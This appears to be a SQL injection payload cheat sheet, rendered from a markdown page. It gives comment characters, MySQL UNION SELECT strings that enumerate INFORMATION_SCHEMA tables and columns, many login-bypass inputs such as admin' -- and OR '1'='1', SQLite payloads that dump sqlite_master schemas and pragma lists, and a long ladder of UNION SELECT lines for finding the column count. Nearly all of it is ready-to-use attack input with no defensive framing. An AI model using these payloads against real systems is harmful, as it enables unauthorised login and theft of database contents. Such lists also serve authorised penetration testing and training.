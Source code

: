 # SQLi 
#### Command characters are (#, /**/, ;, —)

##### Note: We can use the following code to make it true

    ("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/")

    
..............................................................................

    0+UNION+SELECT+NULL,+COLUMN_NAME,+NULL,+NULL+FROM+INFORMATION_SCHEMA.COLUMNS
    0+UNION+SELECT+NULL,+group_concat(COLUMN_NAME),+NULL,+NULL+FROM+INFORMATION_SCHEMA.COLUMNS
    0+UNION+SELECT+2,3,table_name,4+from+INFORMATION_SCHEMA.tables
    0+UNION+SELECT+2,group_concat(table_name),3,4+from+INFORMATION_SCHEMA.TABLES
    0+UNION+SELECT+2,3,group_concat(table_name),4+from+INFORMATION_SCHEMA.tables+where+table_SCHEMA=database()

..............................................................................

user=admin' ;&pass=a 

user=admin' --&pass=a

user=admin' /*&pass=a

adm'||'in &Pass=' glob '*

user=ad'||'min'%00&pass=a

user=1' OR '1'='1%00&pass=a

user=admin' OR '1'='1';&pass=a

user=admin' OR '1'='1'--&pass=a

user=admin' OR '1'='1'/*&pass=a

user=admin&pass=a'/**/IS/**/NOT/**/'b

user='admi'||CHAR(' AND pass='-0+110)||''

user=adm' ||   trim('in', Password: )  || '&pass=a

user=admin' union select * from users where '1&pass=a

user=' union select * from users where username in("admin")/*&pass=a

user=mali'/**/union/**/SELECT/**/*/**/FROM/**/users/**/LIMIT/**/1;&pass=a

User='/**/union/**/select*from/**/users/**/where/**/username/**/in(char(97,100,109,105,110))/*&pass=a

.....................................................................................
# For SQLi (SQLite)

'union select sqlite_version() -- -

123' UNION SELECT 1, sqlite_version(), 3;--

' UNION SELECT table_name FROM sqlite_master --

123' UNION SELECT name, sql, null from sqlite_master;--

' UNION SELECT sql FROM sqlite_master WHERE type='table' AND name='your_table' --

'UNION SELECT tbl_name FROM sqlite_master WHERE TYPE='table' AND tbl_name NOT LIKE'sqlite_%'

' UNION SELECT null, sql FROM sqlite_master WHERE type='view' --

' UNION SELECT null, sql FROM sqlite_master WHERE type='trigger' --

' UNION SELECT null, sql FROM sqlite_master WHERE type='index' --

' UNION SELECT null, sql FROM sqlite_master WHERE type='table' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' --

' UNION SELECT null, sql FROM sqlite_master WHERE type='index' AND sql NOT NULL --

' UNION SELECT null, sql FROM sqlite_master WHERE type='trigger' AND sql NOT NULL --

' UNION SELECT null, sql FROM sqlite_master WHERE type='view' AND sql NOT NULL --

' UNION SELECT null, sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL --

' UNION SELECT null, name FROM pragma_function_list() WHERE name NOT LIKE 'sqlite_%' --

' UNION SELECT null, name FROM pragma_module_list() WHERE name NOT LIKE 'sqlite_%' --

' UNION SELECT group_concat(name) FROM sqlite_master WHERE type='table' --

' UNION SELECT group_concat(sql) FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name' --

' UNION SELECT null, table_name FROM pragma_table_info('sqlite_master') --

' UNION SELECT null, sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name' --
.....................................................................................................................

' UNION SELECT NULL --

' UNION SELECT 1 --

' UNION SELECT 'a' --

' UNION SELECT 'a', 'b' --

' UNION SELECT 'a', 'b', 'c' --

' UNION SELECT 'a', 'b', 'c', 'd' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', '0' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', '0', '1' --

